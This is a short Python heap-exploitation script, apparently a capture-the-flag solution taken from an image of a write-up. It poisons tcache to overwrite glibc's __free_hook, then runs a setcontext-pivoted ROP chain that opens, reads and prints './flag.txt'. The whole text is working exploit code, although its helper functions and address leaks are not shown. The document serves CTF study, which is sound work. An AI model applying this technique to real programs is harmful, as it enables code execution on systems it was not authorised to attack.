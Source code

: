```python  
pop_rax_ret  = libc_base + 0x47400  # pop rax; ret;  
pop_rdi_ret  = libc_base + 0x23b72  # pop rdi; ret;  
pop_rsi_ret  = libc_base + 0x2604f  # pop rsi; ret;  
pop_rdx_ret  = libc_base + 0x119241 # pop rdx; pop r12; ret;  
xchg_eax_edi = libc_base + 0xf1b95  # xchg eax, edi; ret;

# Write __free_hook in tcachebins  
Free()  
Alloc(0xe0, b"A"*0x78+p64(0x81)+p64(free_hook-0x10))

for i in range(5):  
 Alloc(0x70, "\n")

# Write ROP chain of Open/Read/Write in heap memory  
buf  = b"A"*0x20  
buf += p64(setcontext+61)  
buf += b"B"*0x78  
buf += p64(heap_base + 0x2370) # rsp  
buf += p64(ret_addr)           # rcx  
buf += p64(pop_rax_ret)  
buf += p64(2)  
buf += p64(pop_rdi_ret)  
buf += p64(heap_base + 0x2418)  
buf += p64(pop_rsi_ret)  
buf += p64(0)  
buf += p64(syscall_ret)  
buf += p64(pop_rdi_ret)  
buf += p64(0)  
buf += p64(xchg_eax_edi)  
buf += p64(pop_rsi_ret)  
buf += p64(heap_base + 0x4000)  
buf += p64(pop_rdx_ret)  
buf += p64(0x80)  
buf += p64(0)  
buf += p64(syscall_ret)  
buf += p64(pop_rax_ret)  
buf += p64(1)  
buf += p64(pop_rdi_ret)  
buf += p64(1)  
buf += p64(syscall_ret)  
buf += b"./flag.txt\x00"  
Alloc(0x200, buf)

# Write ROP gadget address(mov rdx, qword ptr [rdi + 8];...) in __free_hook  
Alloc(0x70, p64(0)+p64(heap_base+0x22c0)+p64(mov_rdx_rdi))

# Start ROP chain  
Free()

s.interactive()  
```
